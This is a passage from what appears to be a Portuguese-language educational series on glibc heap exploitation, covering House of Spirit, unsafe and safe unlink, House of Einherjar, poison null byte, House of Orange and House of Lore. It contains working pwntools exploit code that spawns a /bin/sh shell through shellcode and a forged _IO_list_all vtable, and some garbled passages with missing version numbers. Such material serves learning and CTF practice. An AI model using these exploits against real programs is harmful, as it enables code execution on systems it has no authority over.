0,0,0,0,0,
0x21,# tamanho valido
)
O programa possui pointers no heap para o data (+ 0x10) dos chunks...
Porem alguém vacilou e deixou passar um BoF, e como o pointer é uma variável
local da função, voce nao precisara nem se quer acertar o canary:
| Buf | Dados | Buf Buf | pointers | Buf Buf Buf | canary, rbp, rip, essas coisas
| Overflow aqui
Assim, se por meio do overflow colocarmos um dos pointers como: username + 0x10
( + 0x10 para ajustar, levando em consideração que o pointer originalmente
apontava para o data de um chunk...
E agora quando o programa chamar free nesse pointer, BOOM! Chunk falso no
fastbin!
Smallbins
Para os smallbins o procedimento é similar!
A parte do overflow continua tudo igual, a única mudança é que ao apos o tamanho valido, colocamos um fencepost...
Assim, nos evitamos que o chunk consolide para frente!
username = flat(
0xa1,
0,0,0,0,0,
0x11, # tamanho valido
0
0x11, # nao consolidar
0
Alem disso, o endereço do chunk falso deve ser ANTES do heap, para evitar uma mitigação
Exec: Converter em Fastbin Dup
Bom, e como podemos prosseguir? nos podemos alocar esse chunk e usa-lo para dar write, mas isso nao e la muito util, se nos ja podíamos escrever naquela região pra inicio de conversa... então vamos precisar de algo a mais para conseguir uma shell
Para conseguir execução de código, nos poderíamos por exemplo corromper o
malloc_hook... mas find_fake_fast em condições normais somente retornara um
chunk de tamanho 7f incompatível com o House Of Spirit por causa das flags...
Então vamos voltar a essencia do que esse ataque: free esta sendo chamado num pointer, e nos podemos dar overflow nesse pointer
Esse se nos apontarmos esse pointer para um chunk que ja foi liberado?
Double Free!!!!
Vamos continuar com o exemplo anterior, nos podemos alterar pointers para o heap:
| Buf | Dados | Buf Buf | pointers | Buf Buf Buf | canary, rbp, rip, essas coisas
| Overflow aqui
E vamos supor o estado atual do heap:
0x70 - chunk_A
0x20 - Chunk_B
0x70 - chunk_C
0x50 - chunk_D
e o nosso overflow corrompe primeiro o pointer para chunk_D!
| Buf Buf | pointer_D pointer_C pointer_B pointer_A |
AAAAAAAAA
Para tornar o ataque independente de heap leak, nos podemos alterar somente o LSB do pointer
Se alteramos para 0x00, ele apontara para o inicio do heap, portanto se
alterarmos para 0x10, estaremos apontando para a user_data do chunk_A
E se mudarmos para 0x80, para a user_data do chunk_B
Assim, podemos escolher um deles para dar um double free, eu vou escolher o A!
Como o A é um fastbin, nos convertemos a House Of Spirit em um fastbin dup...
mesmo se o programa manualmente cuidar dos chunks para previvir um double free, esse ataque ainda funcionaria, pois tecnicamente a gente chamou free em pointers diferentes :D
overflow(b"A"*0x120 + "\x10") # pointer_D -> chunk_A
free(pointer_A)
free(pointer_C) # Free num chunk do mesmo fastbin
free(pointer_D) # Fastbin dup
Agora o fastbin 0x70 fica:
head: chunk_A -> chunk_B -> chunk_A
E voce pode prosseguir normalmente com o fastbin dup, agora podendo criar um
chunk falso no malloc_hook... Ja que o tamanho 7f é compatível com o fastbin
dup :D
Unsafe Unlink
O Unsafe Unlink é o equivalente daquele BoF tradicional com o shellcode na stack, o mais básico de todos!
Assim, ele requer que NX e todas essas bobagens estejam desligadas... :P
Teoria
Overflow
__________________
| | size | Nosso chunk
| |
| |
|__________________|
| prev_sz | size | Free chunk
| fd | bk |
| |
|__________________|
BBBBBBBuuuuuuuffffeeerr oooovveeerrrrfllloowww
__________________
| | size | Nosso chunk
| AAAAAAAAAAAAAAAA |
| AAAAAAAAAAAAAAAA |
|__________________|
| AAAAAAA | 0x91 | Free chunk
| FFFFFFF | BBBBBB | obs: precisamos colocar
| | um tamanho valido
|__________________|
Assim, nos alteramos o fd e o bk
Unlink
Quando esse free chunk for alocado, ele precisara
ser UN-LINKADO da free list
Fazer o proximo chunk apontar para o chunk anterior e o
chunk anterior apontar para o proximo chunk
Isto e:
bk_velho = vitima.bk
fd_velho = vitima.fd
vitima.fd.bk = bk_velho
vitima.bk.fd = fd_velho
assim: vitima
___ bk ___ _V_ ___ ___
| | --> | | --> | | --> | | --> | |
|___| <-- |___| <-- |___| <-- |___| <-- |___|
fd
BK FD
___ _V_ BK.fd _V_ ___
| | --> | | --> ----> --> | | --> | |
|___| <-- |___| <-- <---- <-- |___| <-- |___|
___ FD.bk
| |
|_ _|
^
vitima
Ataque
Assim, se substituirmos o fd e o bk, temos um
primitivo de reflected-write !
Assim, nos escrevemos:
fd falsoembk falso + 0x18bk falsoemfd falso + 0x10
Portanto, os dois endereços precisam ser validos para nao gerar SEGFAULT ! D:
Isso nos deixa com poucas opções,.... porem nao existem proteções então talvez seja possível!
Nos podemos colocar a payload no heap (sem ASLR, então
temos o endereço dela, e sem NX então ela executa) e
comprometer algum pointer que nos de execução, por exemplo:
- Qualquer um dos __malloc_hooks
- GOT (Sem
RELRO) - .dtors (ainda existia nos bins velhos)
Porem temos um problema: o write refletido, alem de fazer um pointer apontar para o nossa payload, acaba escrevendo um valor no meio da payload! :(
Assim, vamos precisar de um NOP slide especial!
90
90
90
90 <---- Mira execução aqui
90
90
JMP Payload ---------
90 |
90 |
90 |
corrupção ----> 90 |
cai aqui 90 |
90 |
90 V
PAYLOAD
Assim, a payload fica intacta
Obs: se voce tem um
write-after-free, basta fazer
- Overflow
- Corrompe
- Write: nova payload
- Trigger
E colocando tudo isso junto:
Final
asm("jmp shellcode;" + "nop;"*0x20 + "shellcode:" + shellcraft.execve("/bin/sh")) +
b'A'*pad +
flat(
0x91,# size
heap - 0x18 + 0x28,# fd - 0x18 | + 0x28 offset para o nosso chunk por exemplo
__malloc_hook - 0x10,# bk - 0x10
)
Teoria
O safe unlink depende muito da implementação do programa, isso quer dizer que nao existe uma formula bonitinha para conseguir uma shell...
A mitigação que foi introduzida se consiste em:
assert(vitima.fd.bk == vitima)assert(vitima.bk.fd == vitima)
Assim, agora alem de o fd falso e bk falso precisarem ser endereços
validos, precisaremos de que:
fd falso+ 0x18 == pointer paravitimabk falso+ 0x10 == pointer paravitima
Assim, precisamos de 1 ou 2 pointers que apontam para o nosso chunk, e que esse pointer seja importante.
.data
Caso o programa tenha um struct com pointers para o heap, e acesse o heap por meio deles
.data
struct UsuárioLogado:
nome: pointer para chunk, -> aponta para vitima
senha: pointer para chunk,
metadados: pointer para chunk,
E o programa use:
edit( * usr123.nome, novo_nome )
Exploit
Safe Unlink
Nos podemos mirar o fd falso e bk falso apontando para o pointer que
aponta para a vitima, passando o check de segurança...
Agora fd sera escrito no *bk e bk sera escrito no *fd (+ os offsets),
mas os dois sao o mesmo alvo, então como consequência somente teremos a
alteração de usr123.nome para o valor de fd/bk isto e:
ele aponta para ele mesmo (ou antes por causa dos offsets (+0x16,0x10,...))
usr123.nome = & usr123.nome
Edit no usr123 para controlar todos os pointers
Agora, caso tentemos editar o nome, vamos na verdade ter um write no struct
usr123 (e adjacentes)
edit( * usr123.nome, novo_nome )
E agora que controlamos todos os pointers por meio do novo_nome, podemos
altera-los, com cada um abrindo uma nova avenida de exploitação...
Arbwrite - Definir alvo
O mais obvio é alterar o usr123.nome de novo... nos dando um arbwrite
edit( * usr123.nome, __malloc_hook - 0x20 )
Arbwrite - Definir valor
agora usr123.nome aponta para o __malloc_hook e o proximo edit vai
altera-lo...
Unindo tudo
mudarNome(novo_nome) = wrapper para interagir com o programa chamando o código de editar o nome
- Start
usr123.nome-> vitima
- Safe Unlink apontando para
usr123.nomeusr123.nome->usr123.nome
- mudarNome(
__malloc_hook-0x20)usr123.nome-> antes do__malloc_hook
- mudarNome(
A*pad+libc.system)
Outros exemplos
Outros cenários que podem ser viáveis passar essa mitigação incluem:
- Pointer na stack para o chunk
- talvez de para alterar o ret salvo
- Voce forjar o seu próprio pointer caso tenha um heap leak
- Os metadados de um free chunk que aponte para vitima
Na House of Einherjar, nos queremos que malloc retorne um chunk
FORA do heap (.data, etc...) usando um
single null byte overflow (aka poison null byte) contra um
chunk alocado. Quando somente um null byte vaza o buffer,
comumente sendo um null byte de finalização de strings....
Prerrequisitos
Para isso. alem do overflow, vamos precisar de um infoleak do heap, e um do endereço do chunk falso. Pois nos vamos consolidar um chunk ate o nosso chunk falso.
Alem disso, o chunk vitima do overflow precisa ter tamanho 0x100, 0x200, etc... Pois, caso o tamanho fosse, por exemplo 0x30, ele simplesmente viraria 0x00, o que nao seria muito util. Assim, o nosso overflow nao muda o tamanho do chunk, somente as flags:
0x0201 -> 0x0200 (mesmo size, sem prev_use)
Assim, quando chamarmos free no chunk vitima, por ter seu
prev_use=0, ele vai tentar consolidar com o chunk de trás (obs:
considerações adicionais sobre consolidar pra frente com o top
chunk ao final do post).
Assim, nos devemos alterar o prev-size e deixa-lo enorme, para
que alcance o chunk falso:
____________
| | size | <- FAKE
| fd | bk |
|____________|
....
....
....
....
____________
| | size |
| AAAAAAAAAA |
| AAAAAAAAAA |
| ... |
| AAAAAAAAAA |
| prev | 200 | -> prev_use desativado
|____________|
o prev deve ser igual ao offset:
&
vitima- &FAKE
Chunk falso
Alem disso, como nos vamos consolidar, precisaremos passar pelo SAFE unlink... Portanto, basta colocar:
fd=bk= &FAKE
Alem disso, por causo do check: corrupted size versus prev size,
nos precisamos que o size do chunk falso também seja:
&
vitima- &FAKE
OBS: libc <
Nessas versões do libc, a implementação do
corrupted size versus prev size foi mal feita:
if ( __builtin_expect (chunksize(P) != prev_size (next_chunk(P)) ,0))
malloc_printerr ("corrupted size versus prev size");
O prev_size usado nao é o certo, e sim calculado usando o próprio chunk fake
_____________
| | size |
| fd | bk |
| |
| ... |
| |
| prev | | <<<<<<<< E SIM ESSE
|_____________|
....
....
....
....
____________
| | size |
| AAAAAAAAAA |
| AAAAAAAAAA |
| ... |
| AAAAAAAAAA |
| prev | 200 | <<<<<<<< NAO SERA ESSE
|____________|
Isso quer dizer que durante a criação do chunk falso, basta
colocar um prev_size (do fake) igual ao size....
Porem existe um truque mais fácil: basta colocar size=8
Assim, o endereço dos dois fica igual... ja que o prev_size sera
calculado com :
&
FAKE+size-8
Em condições normais, isso retorna o prev_size do proximo chunk..
Porem com size=8, nos temos que ele aponta para o mesmo endereço
do size. Com isso, eles sao necessariamente iguais, passando o
corrupted size versus prev size
Portanto, voce tem no minimo 3 maneiras diferentes de burlar o mecanismo de segurança :D
Free
Com tudo isso pronto, basta chamar free() na vitima, que ela
sera consolidada com o chunk falso...
Agora, basta chamar malloc que o chunk falso sera alocado, te
dando elevado controle sobre a .data...
Vitima adjacente ao top
Caso a vitima esteja do lado do top chunk, ele sera consolidado com ela e com o fake:
_____________
| | size |
| fd | bk |
| |
| ... |
| |
| prev | |
|_____________|
....
....
....
....
____________
| | size |
| AAAAAAAAAA |
| AAAAAAAAAA |
| ... |
| AAAAAAAAAA |
| prev | 200 |
| ... |
| ... |
| ... |
| | top |
|____________|
Assim, movendo o endereço do top para &FAKE
_____________
| | top |
|_____________|
| |
| |
| |
| |
|_____________|
....
....
....
....
____________
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
|____________|
Com todas as alocações seguintes vindo de la!
Google Poison Null Byte
Essa tecnica se parece com a House of Einherjar, porem nela nos
precisávamos usar null bytes no prev_size e dado que overflows
de Null Byte tendem a ocorres com strings, nos nao poderíamos
usa-los.
Assim, essa tecnica é mais realista, ja que leva badchars em consideração. Portanto, ela ja foi usada em múltiplos ataques na vida real.
Alem disso, eles se diferenciam pois nessa tecnica o nosso Null
byte corrompe o size de um FREE chunk... Portanto, essa
tecnica busca criar um overlap entre dois chunks
Prerrequisitos
Os prerrequisitos dessa tecnica para o chunk vitima sao o sao o oposto da House of Einherjar:
- chunk overflow
- Qualquer size
- overflow de 1 Null Byte
- chunk vitima
- FREE
size>0x100sizeNAO!!! terminado em0x00. Ex:0x410,0x3a0...
- chunk consolidação
- Tamanho que permita consolidação:
size>=0x90
- Tamanho que permita consolidação:
- Um chunk qualquer para prevenir consolidação com o TOP
Ataque
chunk_A = malloc(0x18) # chunk overflow: qualquer tamanho
chunk_B = malloc(0x308) # chunk vitima: 0x310
chunk_C = malloc(0x98) # chunk consolidação: size >= 0x90
chunk_D = malloc(0x98) # Prevenir consolidação TOP
free(chunk_B)
OBS: Caso o libc tenha "prev vs prev size" (> 2.26) :
Precisaríamos forjar um PREV_SIZE falso pro chunk_B
(ele deve ficar na posição do prev_size caso o chunk_B ja
tivesse sido reduzido (pad = 0x300-0x10))
edit(chunk_B, "\x00"*(0x2f0) + p16(0x300))
free(chunk_B)
Para simplificar, vamos assumir uma versão mais antiga do libc
_______________ chunk_A
| |
| |
|_______________| chunk_B
| | 0x311 | FREE: UNSORTED
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
|_______________| chunk_C
| 0x310 | 0x100 | PREV_USE = 0
| | PREV_SIZE = 0x310
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
edit(chunk_A, 0x18*b"A") # vamos assumir que o programa coloque o
# NULL ao final automaticamente
_______________ chunk_A
| |
| AAAAAAAAAAAAA |
|_______________| chunk_B
| AAAAA | 0x300 | FREE: UNSORTED
| | SIZE ALTERADO PARA 0x300 (-0x10)
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
|_______________| chunk_C
| 0x310 | 0x100 | PREV_USE = 0
| | PREV_SIZE = 0x310
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
Assim, o chunk vitima teve seu tamanho diminuído em: mod 0x100
Vamos chamar essa diferença de DIFF
Por exemplo:
0x310 -> 0x300 DIFF=0x10
0X4a0 -> 0x400 DIFF=0xa0
... DIFF=(size mod 0x100)
Essa diferença ira gerar muitos problemas!
Agora, vamos alocar um chunk que divida o B por meio de remainder
chunk_B1 = malloc(0xf8) # 0x100 por exemplo, mas poderia ser também
# 0x110, 0x120, ..., 0x200,...
_______________ chunk_A
| |
| AAAAAAAAAAAAA |
|_______________| chunk_B1
| AAAAA | 0x101 |
| |
| |
| |
| |
| |
| |
|_______________| resto do chunk_B
| | 0x201 | FREE: UNSORTED
| |
| |
| |
| |
| |
| |
| |
|_______________| Espaço bugado de tamanho DIFF
| 0x200 | |
|_______________| chunk_C
| 0x310 | 0x100 | PREV_USE = 0
| | PREV_SIZE = 0x310
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
Nao atualizou o prev_size do chunk_C como deveria, pois
deu write num endereço 0x10 (DIFF) antes do correto
(Justamente no Espaço bugado de tamanho DIFF)
Então o prev_size do chunk_C continua = 0x310
Agora, vamos alocar um chunk que gaste o "resto do chunk_B"
chunk_B2 = malloc(0x1f8) # 0x200
_______________ chunk_A
| |
| AAAAAAAAAAAAA |
|_______________| chunk_B1
| AAAAA | 0x101 |
| |
| |
| |
| |
| |
| |
|_______________| chunk_B2
| | 0x201 |
| |
| |
| |
| |
| |
| |
| |
|_______________| Espaço bugado de tamanho DIFF
| 0x200 | 1 |
|_______________| chunk_C
| 0x310 | 0x100 | PREV_USE = 0
| | PREV_SIZE = 0x310
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
Assim como no anterior, errou a mira por 0x10 (DIFF)!
Dessa vez, nao atualiza o PREV_IN_USE do C
Portanto, por causa do PREV_USE e PREV_SIZE errados,
se free(chunk_C), ele vai consolidar com chunk_B1 (que tem o mesmo
endereço que o chunk_B), pois acredita que ele esta FREE
Assim, teríamos que forjar fd e bk no chunk_B1, para que ele
passe o safe unlink! Mas nos precisaríamos de um heap leak e
da habilidade de escrever NULLBYTES
Para burlar isso, vamos simplesmente dar free() nele, gerando
pointers legítimos
free(chunk_B1)
_______________ chunk_A
| |
| AAAAAAAAAAAAA |
|_______________| chunk_B1
| AAAAA | 0x101 | FREE: UNSORTED
| FD | BK | FD e BK legítimos
| |
| |
| |
| |
| |
|_______________| chunk_B2
| | 0x200 | PREV_USE = 0 (porem nao importa)
| |
| |
| |
| |
| |
| |
| |
|_______________| Espaço bugado de tamanho DIFF
| 0x200 | 1 |
|_______________| chunk_C
| 0x310 | 0x100 | PREV_USE = 0
| | PREV_SIZE = 0x310
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
Agora podemos chamar free no chunk_C, consolidando com o chunk_B1
free(chunk_C)
Da perspectiva do MALLOC temos:
_______________ chunk_A
| |
| AAAAAAAAAAAAA |
|_______________| chunk_B1 + chunk_C
| AAAAA | 0x401 | FREE: UNSORTED
| FD | BK |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
Porem nos sabemos que o chunk_B2 continua ali! Criando um overlap
_______________ chunk_A
| |
| AAAAAAAAAAAAA |
|_______________| chunk_B1 + chunk_C
| AAAAA | 0x401 | FREE: UNSORTED
| FD | BK |
| |
| |
| |
| |
| |
|. . . . . . . .| chunk_B2
| |
| |
| |
| |
| |
| |
| |
| |
|. . . . . . . .|
| |
| |
| |
| |
| |
| |
| |
| |
| |
|_______________| chunk_D
| |
| |
| |
|_______________|
E lembrando que, a nao ser que CALLOC tenha sido usado, ainda
existe um monte de metadados largados la no meio (por exemplo, no
espaço DIFF), ou os próprios pointers do chunk_B2
Agora com esse primitivo, voce poderia fazer muitas coisas, por exemplo, um libc leak:
chunk_E=malloc(size chunk_B1)read(chunk_B2)
Unsorted bins: Partial Unlink
Nos unsorted bins, nao é necessário fazer um unlink completo. Quando procurando um chunk nos unsorted bins, segue o procedimento:
- Segue da Tail -> Head
- Conforme vai andando,
sortos chunks no bins apropriadossmall binsoularge bins- Quando ele vai ser transferido da
unsortedparasmall/large, faz um parcial unlink
- Caso encontre um tamanho exato
exact fit:malloc- Quando vai ser alocado, faz um parcial unlink
Obs: Isso é uma simplificação, ignorando
remaindere outros fatores...
O processo de parcial unlink é similar ao unlink completo, porem somente o bk!
head vitima tail
_V_ bk ___ _V_ ___ _V_
| | --> | | --> | | --> | | --> | |
|___| <-- |___| <-- |___| <-- |___| <-- |___|
fd
vitima.fd.bk = vitima.bk
copiado
head |---------| tail
_V_ ___ | bk V ___ _V_
| | --> | | --> ----> --> | | --> | |
|___| <-- |___| <-- X <-- |___| <-- |___|
fd ignorado
___
| |
|___|
assim, nos seus UAF e semelhantes, basta somente fazer: user_data = p64(0) + p64(target)
Assim, temos um write em que CONTROLAMOS O ENDEREÇO, mas NAO
controlamos o valor
O valor é o endereço da head do small/large bin de tamanho vitima.size
Para propósitos de exploit, isso quer dizer que estamos apontando algo para o nosso chunk... Essa técnica sera util na House Of Orange !
House Of Orange
Teoria
O ataque da House Of Orange se consiste em:
- Gerar um free chunk
- Por exemplo, ativando o código de extensão do heap
- Corromper o free chunk
- Ataque dos Unsorted Bins
- Corromper _IO_list_all
- Método: Forjar chunk falso no heap
OBS: Glibc <=
Gerar um Free Chunk
Para executar esse ataque, voce vai precisar de um free chunk nos unsorted
bins. Ele obviamente pode ser corrompido com um write-after-free ou overflow.
Porem um técnica que costuma vir combinada com a HoO é ativar o código de extensão do heap
Extensão do heap
Explicada melhor em breve, porem resumindo... Corromper o top chunk com:
PAGE_SIZE - usado + 1
0x1000 soma do tamanho PREV_INUSE
dos chunks ja
alocados
E alocar um chunk grande, fazendo com que malloc:
- Crie um novo heap em outra parte da memoria
- Transforme o resto do heap antigo em um free chunk
- Coloque FencePost chunks no final do heap antigo
Fencepost: Chunk de tamanho ilegal 0x10 usado para evitar que malloc leia regiões nao alocadas da memoria (gerando
SEGFAULT) quando olhando os chunks para frente!
Assim, nos conseguimos um free chunk mesmo que o programa nunca chame free diretamente!
Unsorted Bins
O Ataque ja foi descrito em outro post, então nao vou perder muito tempo aqui, o fato a se ressaltar é que na HoO idealmente devemos realizar o parcial unlink por meio de um SORT !!
Alem disso, apos o sort, ele precisa ser a head do seu respectivo fastbin. Portanto sera necessário voce preparar o heap anteriormente caso ja exista algo la antes...
Isto ocorre pois quando realizarmos o unsorted bins vamos escrever o ENDEREÇO DA HEAD, e o valor nesse endereço sera o nosso chunk
Corromper _IO_list_all
O alvo do nosso unsorted bins sera o _IO_list_all
Porem, ele nao vai passar os checks de segurança do unlink, mas isso nao é um
problema, pois em versões do Glibc <= os overflows do stdio (e outras
filestreams) ainda serão chamados, nos permitindo executar o ataque do
IO_list_all :D
Assim, uma parte da main arena sera interpretada como uma filestream, porem
nao passara os checks de mode, etcetc
Assim, o seu _chain sera seguido, e justamente nesse endereço precisamos dar
o sort para a head mencionada anteriormente! Agora, o nosso chunk sera tratado
como uma filestream, e nos podemos passar os checks de segurança e forjar uma
vtable.
Assim ganhando a shell apos as mitigações do Glibc serem ativadas e abort()
chamado, no ultimo segundo do processo de finalização!
Exploit
Heap Extension
Vamos supor que o programa tenha chunk tem tamanho 0x20 e ao
edita-lo temos um overflow. Assim podemos criar um helper no nosso
exploit para editar esse chunk: edit_vuln()
Também vamos supor que esse foi o primeiro e único chunk, assim fazendo
fronteira com o top chunk, e tornando a quantidade usada do heap = 0x20
Para a técnica, o único requerimento é poder corromper o top chunk, essas condições ideais sao somente para simplificar a explicação
Allocated chunk | PREV_INUSE
Addr: 0x55bca860c000
Size: 0x21
Por ultimo, nos temos um helper que nos permite alocar um chunk
grande: malloc_grande()
Assim, podemos corromper o tamanho do top chunk usando:
usado = 0x20 # Quanto do heap ja foi usado, por exemplo 0xa0, 0xc0,...
edit_vuln(flat(
0,
0,
0,
0x1000 - usado + 1
))
malloc_grande()
Agora temos um free chunk, nos unsorted bins, logo apos o chunk do overflow
Allocated chunk | PREV_INUSE
Addr: 0x55bca860c000
Size: 0x21
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55bca860c020
Size: 0xfc1
fd: 0x7f06c67a6b78
bk: 0x7f06c67a6b78
Allocated chunk
Addr: 0x55bca860cfe0
Size: 0x10
Allocated chunk | PREV_INUSE
Addr: 0x55bca860cff0
Size: 0x11
Allocated chunk
Addr: 0x55bca860d000
Size: 0x00
0x55bca860c000 0x0000000000000000 0x0000000000000021 <-- Vuln Chunk
0x55bca860c010 0x0000000000000000 0x0000000000000000
0x55bca860c020 0x0000000000000000 0x0000000000000fc1 <-- unsortedbin[all][0]
0x55bca860c030 0x00007f06c67a6b78 0x00007f06c67a6b78
0x55bca860c040 0x0000000000000000 0x0000000000000000
0x55bca860c050 0x0000000000000000 0x0000000000000000
0x55bca860c060 0x0000000000000000 0x0000000000000000
0x55bca860c070 0x0000000000000000 0x0000000000000000
0x55bca860c080 0x0000000000000000 0x0000000000000000
0x55bca860c090 0x0000000000000000 0x0000000000020f71
0x55bca860c0a0 0x0000000000000000 0x0000000000000000
...
...
...
0x55bca860cfa0 0x0000000000000000 0x0000000000000000
0x55bca860cfb0 0x0000000000000000 0x0000000000000000
0x55bca860cfc0 0x0000000000000000 0x0000000000000000
0x55bca860cfd0 0x0000000000000000 0x0000000000000000
0x55bca860cfe0 0x0000000000000fc0 0x0000000000000010 <-- Fenceposts
0x55bca860cff0 0x0000000000000000 0x0000000000000011
Unsorted Bins + IO_list_all
Como o ataque nos unsorted bins ira causar um abort, ja precisamos preparar
os dois ao mesmo tempo, criando a file stream falsa no chunk que também
usamos para o unsorted bins.
edit(flat(
libc.sym.system,# vtable + 0x18
0,# IO_list_all | Unsorted Bin
b"/bin/sh\0",# flags |
0x60 + 1,# | size
0,# | fd
libc.sym._IO_list_all - 16,# | bk (alvo)
1,# write base |
2,# write ptr |
'\0'*8*21,
heap - 8,# vtable |
))
E o heap fica:
0x5653aa00f000 0x0000000000000000 0x0000000000000021 <-- Vuln Chunk
0x5653aa00f010 0x00007f094febf830 0x0000000000000000
0x5653aa00f020 0x0068732f6e69622f 0x0000000000000061 <-- unsortedbin[all][0]
0x5653aa00f030 0x0000000000000000 0x00007f095021a510
0x5653aa00f040 0x0000000000000001 0x0000000000000002
0x5653aa00f050 0x0000000000000000 0x0000000000000000
0x5653aa00f060 0x0000000000000000 0x0000000000000000
0x5653aa00f070 0x0000000000000000 0x0000000000000000
O pwndbg somente le ate aqui, mas lembrando que tem aqueles 900 zeros seguido dos fenceposts
Ou simplificando
0x0000000000000000 0x0000000000000021 <-- Vuln Chunk
SYSTEM 0x0000000000000000 <- vtable+0x18
/bin/sh SIZE <-- unsortedbin[all][0]
0x0000000000000000 _IO_list_all <- Unsorted: BK
write_base write_ptr
0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000
...
...
Algum lugar aqui o Vtable pointer
...
...
Fenceposts
Agora basta um malloc para fazer o unsorted chunk sofrer SORT e acionar nosso ataque...
Como o abort chegou a ser chamado, um backtrace, mapa da memoria, etcetc sera
printado, para dar uma vibe mais polida para o exploit basta adicionar:
io.recvuntil("[vdso]\n")
io.interactive()
Lembrando que por culpa do ataque no _IO_list_all, essa técnica so te da uma shell 50% das vezes!
Caso voce queira, voce pode colocar o ataque todo dentro de main() e fazer:
while True:
try:
main()
except:
continue
quit()
Assim temos:
def main():
#################################
# Inicializar #
#################################
# elf = ELF( alvo123 )
# io = process(elf.path)
# libc = elf.libc
#################################
# Heap libc Leak #
#################################
# heap = bla bla bla
# libc.address = bla bla bla
#################################
# House Of Orange #
#################################
# Extender Heap
usado = 0x20 # Quanto do heap ja foi usado, por exemplo 0xa0, 0xc0,...
edit_vuln(flat(
0,
0,
0,
0x1000 - usado + 1
))
malloc_grande()
# Unsorted + _IO_list_all
edit(flat(
libc.sym.system,# vtable + 0x18
0,# IO_list_all | Unsorted Bin
b"/bin/sh\0",# flags |
0x60 + 1,# | size
0,# | fd
libc.sym._IO_list_all - 16,# | bk (alvo)
1,# write base |
2,# write ptr |
'\0'*8*21,
heap - 8,# vtable |
))
# Qualquer malloc agora acionaria o sort
malloc_grande()
io.recvuntil("[vdso]\n")
io.interactive()
while True:
try:
main()
except:
continue
quit()
House of Lore
Na house of Lore vamos colocar um chunk falso no UnsortedBin, SmallBins ou LargeBins.
Porem, nao iremos chamar free() no chunk falso (como na House
of Spirit) ou um double free (como no fastbin dup).
Esse foi um dos ataques originais do malloc malleficarium
Ele busca alocar o chunk falso em uma area com infirmações sensíveis do programa e altera-las
UnsortedBin
Versão < 2.29 Para a HoL nos unsortedbins, precisamos de um
write-after-freeem um chunk dos unsorted bins.... Seja isso por meio de um overflow, ou o programa permitindo alterar chunks livres...
Isso deve te lembrar do Partial Unlink nos Unsorted Bins e da House of Orange. Porem, nesses casos a parte importante era o write na hora da alocação, e nao a alocação em si, com na HoO ate usando o crash mitigação nessa alocação ao nosso favor.
Porem neses caso, nos queremos que o chunk seja usável quando nos alocamos e que o programa nao crash... então precisaremos mudar um pouco a estrategia ...
Ataque
Nos podemos usar o UAF no chunk do heap para alterar o bk, da mesma maneira que faríamos com o ataque dos unsortedbins...
Assim, vamos supor que o chunk falso sera criado no username (armazenado na
data section)
change_username(flat(
0,
0xc1,# size
0,#fd
0,#bk
))
edit_chunk_A(flat(
0,# fd
elf.sym.username
))
Assim, o unsorted bin fica:
head bk: chunk_A -> username -> 0 Em seguida, nos poderíamos alocar o chunk_A e sem seguida o nosso chunk falso
Porem, durante a alocação desses chunks, um ataque do unsorted bin acidental ocorreria, ok se mostra ok no caso do chunk_A, pois aponta para memoria valida ( a data section aonde o chunk falso fica)
Entretanto, no caso do chunk falso, ele tentaria fazer um ataque dos
unsortedbins em 0 + 0x10, memoria invalida: SEGFAULT!!!!
Assim, nos precisamos garantir que o bk do chunk falso aponta para memoria escrevível! A solução mais fácil é aponta-lo para ele mesmo, corrompendo os 8 bytes inúteis antes do size
change_username(flat(
0,
0xc1,# size
0,#fd
elf.sym.username - 0x10,#bk
))
Agora basta realizar um malloc com o size do chunk falso, e pronto! Nos temos um chunk na data section (ou aonde vc criou o chunk falso)
free(chunk_A)
change_username(flat(
0,
0xc1,# size
0,#fd
elf.sym.username - 0x10,#bk
))
edit_chunk_A(flat(
0,# fd
elf.sym.username
))
chunk_FAKE = malloc(0xb8)
Obs
Como nos controlamos o bk do chunk falso, podemos apontar para outro chunk falso, ou ate pra ele mesmo contanto que voce nao danifique o bk entre alocações :D
Voce pode ter pode ter a 8 flag acidentalmente ligada que nao interfere
O size precisa < do que system_mem
o bk do chunk falso precisa apontar para memoria escrevível
Quando tentar encontrar sizes que ocorrem naturalmente, eles PODEM nao estar alinhados
Small Bins
O ataque contra os smalls bins é bem semelhante ao dos unsorted bins, porem nos precisamos que antes do UAF para corromper os pointers, nos coloquemos (sort) o chunk no small bins...
Para isto basta executar um malloc que nao o aloque... por
exemplo, caso o seu chunk seja de size 0xb0, basta alocar um de
tamanho >= 0xc0
Lembrando que tem outros métodos de dar SORT no chunk, explicados na parte de teoria
Assim o UAF, ira corromper meta dados de smallbin, e nao de unsortedbin :D
Os small bins também usam um parcial unlink, então nos podemos ignorar o fd
change_username(flat(
0,
0xb1,# size
0,#fd
elf.sym.username - 0x10,#bk
))
edit_chunk_A(flat(
0,# fd
elf.sym.username
))
Por conta de de os small bins nao terem verificação no tamanho do chunk, voce pode colocar qualquer valor....
chunk_A = malloc(0x98)
malloc(0x18) # Previvir consolidação com o TOP
free(chunk_A)
change_username(flat(
0,
0x00,# size
0,#fd
elf.sym.username - 0x10,#bk
))
malloc( TAMANHO DIFERENTE DO CHUNK_A ) # sort chunk_A -> Small
edit_chunk_A(flat(
0,# fd
elf.sym.username
))
chunk_A = malloc(TAMANHO CHUNK_A)
chunk_FAKE = malloc(TAMANHO CHUNK_A))
Lembrando que o bk do chunk_fake ainda precisa apontar para memoria valida e que o voce precisa de um chunk APOS o do UAF para evitar consolidação com o top chunk.
Por ultimo, temos que enfrentar a mitigação do partial unlink duas vezes: quando alocar o chunk_fake e quando alocar o chunk_A
- o chunk_fake.fd precisa apontar para o chunk_A: chunk_A.bk -> chunk_fake.fd -> chunk_A
- o chunk_fake.bk + 0x10 precisa apontar para o chunk_fake
Assim, nos precisaremos de um heap leak do endereço do chunk_A !
change_username(flat(
elf.sym.username,
0x00,# size
leak_chunk_A,#fd
elf.sym.username - 0x10,#bk
))
